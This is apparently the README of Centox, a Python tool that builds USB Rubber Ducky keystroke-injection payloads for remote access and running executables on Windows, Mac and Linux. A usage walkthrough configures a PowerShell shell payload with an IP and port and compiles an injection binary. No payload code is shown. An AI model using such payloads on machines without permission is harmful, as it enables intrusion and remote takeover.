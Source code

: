 <p align="center">
    <img src="/assets/media/logo.png" height="200">
</p>

<h1 align="center">
  Centox
</h1>

Centox is an injection handler written in python3 and is designed to provide a collection of injection
payloads written for the [USB Rubber ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe/)
which was designed by [Hak5](https://shop.hak5.org/). This project comes with a collection of payloads
for establishing remote access, deploying and running executables and more in as short time as possible.
Centox comes with payloads designed Windows, Mac and Linux with the assumption that the target has not
modified their default shortcuts.


## Disclaimer

This project was designed for testing purposes __ONLY__ and is not to be used without explicit permission.
Hacking without permission is not encouraged and the author is not responsible for any illegal use of this tool.

## Installation

Downloading and running setup.py:
```
$ git clone https://github.com/Sigurd-Pettersen/Centox.git
$ sudo python3 Centox/setup.py
```
running setup.py will automatically generate a centox executable to be run in terminal.

## Usage
Starting the centox handler:
```
$ centox
```

the handler commands can be listed using the `help` command:
```
[Centox] $ help

Command    Description
---------  -------------------------------
list       lists all available payloads
use        choose a payload to use
set        sets payload argument variables
options    show all available arguments
generate   generates the current payload
help       shows this help message
```

how to generate payload:
```
[Centox] $ use windows/shell/powershell
 
[Centox] $ options
 
 Payload: windows/shell/powershell
 
Argument       Value
-------------  -------
start_delay    500
ip
port
windows_admin  false
 
[Centox] $ set ip 192.168.68.42
 
[Centox] $ set port 9999
 
[Centox] $ generate -o /home/user/inject.bin -l no
[*] created temporary folder -> /tmp/tmpfeccetz0
[*] writing raw payload to -> /tmp/tmpfeccetz0/payload
[*] compiling payload to injection binary...
[*] injection compiled successfully -> /home/user/inject.bin
```
